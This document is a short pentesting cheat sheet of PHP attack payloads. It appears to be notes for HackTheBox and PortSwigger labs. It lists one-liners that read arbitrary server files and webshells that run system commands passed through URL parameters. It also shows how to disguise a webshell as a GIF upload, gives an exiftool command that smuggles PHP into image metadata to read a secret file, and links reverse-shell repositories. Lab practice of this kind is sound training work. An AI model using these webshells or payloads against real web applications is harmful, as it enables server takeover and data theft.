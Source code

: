 
### Read Files

PHP one liner to read arbitrary files from server file systems:
```PHP
<?php echo file_get_contents('/pat/to/target/file'); ?>
```

Pass system command via query parameters:
```php
<?php echo system($_GET['command']); ?>
```

/////////////////////////////////////////////////////////////////////////////////////////////////////////
### Common Payloads

```php
<?php echo “Hello HTB”;?>
```
```php
<?php echo system('hostname');?>
```

/////////////////////////////////////////////////////////////////////////////////////////////////////////
### Webshells

[https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)
[https://github.com/pentestmonkey/php-reverse-shell.git](https://github.com/pentestmonkey/php-reverse-shell.git)

Payload that you can append to url    (ie. ?cmd=Command)
```php
<?php system($_GET['cmd']); ?>
```


#### Image upload

Create reverse shell as an image

```cli
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```


////////////////////////////////////////////////////////////////////////////////////////////////////////
### Crafting Payloads

The following line uses exiftool to smuggle the php code into an image for file upload
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ImageToUse.jpg -o polyglot.php
```